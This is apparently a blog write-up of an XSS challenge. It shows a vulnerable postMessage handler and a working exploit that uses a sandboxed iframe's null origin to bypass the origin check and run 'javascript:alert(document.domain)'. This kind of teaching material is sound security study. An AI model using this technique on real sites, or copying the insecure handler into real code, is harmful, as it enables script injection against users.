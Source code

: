 ```yaml
---
layout: single
title: XSS Challenge By Honoki
date: 2022-05-04
classes: wide
tags:
  - Twitter
  - XSS
  - Challenge
  - honoki
---
```


How could two security features collide into a vulnerability? Read more to find out!

![twitter challenge](/assets/images/twitter/honoki/twitter-challenge.png)

## Overview

To start off, here is the complete codebase of the challenge.

```
<script>
var originAllowed = function(o) {
  try {
    return new URL(o,window.location.origin).hostname === new URL(window.location).hostname;
  } catch (e) {
    return false;
  }
}

window.addEventListener("message", function(e) {
  if (originAllowed(e.origin) && e.data) {
    try {
      t = JSON.parse(e.data)
    } catch (e) {}
    if (t && "object" == typeof t && t.goto) { window.location = t.goto; }
  }
});
</script>
```

The first issue here is the insecure assignment on `window.location`, which definitely leads to XSS. Here is a small PoC:

![self-xss](/assets/images/twitter/honoki/self-xss.png)

Unfortunately, this is only half of the challenge. Here's a hint from the author:

![twitter hint](/assets/images/twitter/honoki/twitter-hint.png)

This could only be done if the origin check at `originAllowed` is somehow insecure or broken.

The function returns true only if the event origin's hostname is equal to the location origin's hostname.

However, the first part is very suspicious.

```
new URL(o,window.location.origin)
```

Using the location origin as an URL base is a bad idea.

![twitter comment](/assets/images/twitter/honoki/twitter-comment.png)

If I were to somehow hide my origin, then the following would happen:

![null-origin](/assets/images/twitter/honoki/null-origin.png)

If an `iframe` makes a `postMessage` call and has a `sandbox` attribute that doesn’t contain the value `allow-same-origin`, [browsers give it a “unique” origin](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-iframe-element:concept-origin-2):

> When the `sandbox` attribute is set, the content is treated as being from a unique origin, forms, scripts, and various potentially annoying APIs are disabled, links are prevented from targeting other browsing contexts, and plugins are secured. The allow-same-origin keyword causes the content to be treated as being from its real origin instead of forcing it into a unique origin.

When determining the value of the Origin header to send in a cross-origin request, browsers serialize any unique origin as `null` and give the Origin header that value.

## Solution

I first write the `postMessage` caller like this:

```
<html>
    <body>
        <script>
            var url = "https://demo.honoki.net/xss-challenge.html"
            var pup = window.open(url)
            setTimeout(() => {
                pup.postMessage('{"goto": "javascript:alert(document.domain)"}', url)
            },1500)
        </script>
    </body>
</html>
```

Next, I frame the code and give it the required sandbox attributes.

```
<html>
    <iframe
        src="./exploit.html"
        sandbox="allow-scripts allow-popups allow-popups-to-escape-sandbox"
    ></iframe>
</html>
```

The `allow-scripts`, `allow-popups` and `allow-popups-to-escape-sandbox` are required to make the `postMessage` call.

Here is the result when I run it on a local server.

![alert](/assets/images/twitter/honoki/alert.png)

Thanks for reading!